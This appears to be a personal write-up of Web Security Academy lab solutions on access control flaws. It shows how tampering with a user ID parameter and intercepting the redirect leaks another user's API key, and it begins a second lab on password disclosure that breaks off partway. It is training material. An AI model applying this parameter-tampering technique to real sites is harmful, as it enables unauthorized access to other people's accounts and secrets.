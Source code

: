 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514003347.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514003641.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514003530.png)

### User ID controlled by request parameter with data leakage in redirect
```bash

# This lab contains an access control vulnerability where sensitive information is leaked in the body of a redirect response.

# To solve the lab, obtain the API key for the user carlos and submit it as the solution.

# You can log in to your own account using the following credentials: wiener:peter 

Log in as wiener:peter
Note the end-point

https://ac1b1fdf1f55abf5c0edd61e001100a8.web-security-academy.net/my-account?id=wiener

Intercept is on
Try:

https://ac1b1fdf1f55abf5c0edd61e001100a8.web-security-academy.net/my-account?id=carlos

Request:

GET /my-account?id=carlos HTTP/1.1

Response:

HTTP/1.1 302 Found

'Your username is: carlos'

'Your API Key is: VaVyLwaOBhV2taUYAyNGyXcmNwiGLF2z'

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514004843.png)

### User ID controlled by request parameter with password disclosure
```bash

# This lab has user account page that contains the current user's existing password, prefilled in a masked input.

# To solve the lab, retrieve the administrator's password, then use it to delete carlos.

# You can log in to your own account using the following credentials: wiener:peter 

Log in as wiener:peter
Go to:

https://ac011f1f1e0642f5c0b4c753004400dd.web-security-academy.net/admin

Note the name "administrator"
Go to Home:
Intercept is on
Refresh the page
```